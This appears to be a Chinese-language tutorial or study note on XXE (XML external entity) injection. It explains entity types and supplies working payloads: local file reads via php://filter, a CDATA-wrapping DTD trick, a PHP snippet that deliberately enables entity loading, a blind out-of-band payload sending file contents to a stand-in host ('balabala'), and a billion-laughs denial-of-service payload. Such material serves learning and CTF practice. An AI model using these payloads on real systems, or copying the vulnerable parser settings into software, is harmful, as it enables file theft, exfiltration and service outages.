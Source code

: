<div>{%- include extensions/netease-cloud-music.html id='1997850' -%}</div>

XXE(XML External Entity Injection) 全称为 XML 外部实体注入，从名字就能看出来，这是一个注入漏洞，注入的是什么？XML外部实体。

利用点是 **外部实体** ，也是提醒读者将注意力集中于外部实体中，而不要被 XML 中其他的一些名字相似的东西扰乱了思维(**盯好外部实体就行了**)

### 如何声明一个外部实体

```dtd
<!ENTITY entity-name SYSTEM "URI/URL">
```

example:

```xml-dtd
DTD 实例:

<!ENTITY writer SYSTEM "file:///c:/test.dtd">
<!ENTITY copyright SYSTEM "php://filter/read=convert.base64-encode/recource=index.php">

XML example:

<author>&writer;&copyright;</author>
```

#### 外部实体两大派别:

**1.通用实体**

用 &实体名; 引用的实体，他在DTD 中定义，在 XML 文档中引用

**2.参数实体：**

(1)使用 `% 实体名`(**这里面空格不能少**) 在 DTD 中定义，并且**只能在 DTD 中使用 `%实体名;` 引用**
(2)只有在 DTD 文件中，参数实体的声明才能引用其他实体
(3)和通用实体一样，参数实体也可以外部引用

传统艺能标准玩法：（有回显的xxe）

```xml-dtd
<?xml version="1.0"?> 
<!DOCTYPE root[
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=./sql.php">]>
<root>
 <xxe>&xxe;</xxe>
 <flag>233333</flag>
</root>
```



case one:

如果被读取文件含有大量<> & 之类的东西

远程开dtd解决此问题

<![CDATA[what you wanna get]]>

```php
<?php
    $xmldata = '<?xml version="1.0" encoding="utf-8"?> 
    <!DOCTYPE roottag [
    <!ENTITY % start "<![CDATA[">   
    <!ENTITY % goodies SYSTEM "file:///Users/cengsiqi/Desktop/xxe/1.txt">  
    <!ENTITY % end "]]>">  
    <!ENTITY % dtd SYSTEM "http://127.0.0.1:8080/1.dtd"> 
    %dtd; ]> 
    
    <roottag>&all;</roottag>';

    libxml_disable_entity_loader (false);
    $dom = new DOMDocument();
    $dom->loadXML($xmldata, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % body SYSTEM "file:///d:/wp.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "file:///d:/key.dtd"> 
%dtd; ]> 

<roottag>&all;</roottag>
```

```dtd
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%body;%end;">
\\key.dtd
```

blind xxe:

通过外带书记通道传输数据：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./wp.txt">
<!ENTITY % dtd SYSTEM "file://d:/key.dtd">
%dtd;
%send;
]>
```

key.dtd

```dtd-xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY &#x25; send SYSTEM 'http://balabala/?data=%file;'>"
>
```

花式玩法：(看了没敢试

“有机会试试看”)

dos攻击

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

递归玩法挤爆内存